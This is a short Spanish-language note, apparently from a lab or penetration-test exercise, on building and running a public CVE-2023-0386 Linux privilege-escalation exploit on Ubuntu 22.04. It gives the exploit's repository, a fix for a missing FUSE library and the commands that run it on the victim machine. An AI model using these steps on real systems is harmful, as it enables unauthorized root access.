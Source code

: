 Ubuntu 22.04

repositorio del exploit:
https://github.com/xkaneiki/CVE-2023-0386

Para que compilara el exploit con `make all` daba un error porque no se encontraba una libreria, una búsqueda en google daba el comando para instalarla con apt.

fuse.c:3:10: fatal error: fuse.h: No such file or directory
    3 | #include <fuse.h>
      |          ^~~~~~~~
```bash
sudo apt-get update && sudo apt-get install libfuse-dev
```
## Como me funcionó

1. Compilé en máquina víctima el exploit con `make all`
2. Transferí los binarios exp,fuse y gc.
3.  Es necesario tener dos terminales abiertas con el mismo usuario en la ruta donde están todos los ficheros que hemos pasado.
4. En una terminal puse el comando: "./fuse ./ovlcap/lower ./gc"
5. En otra terminal puse el comando "./exp"

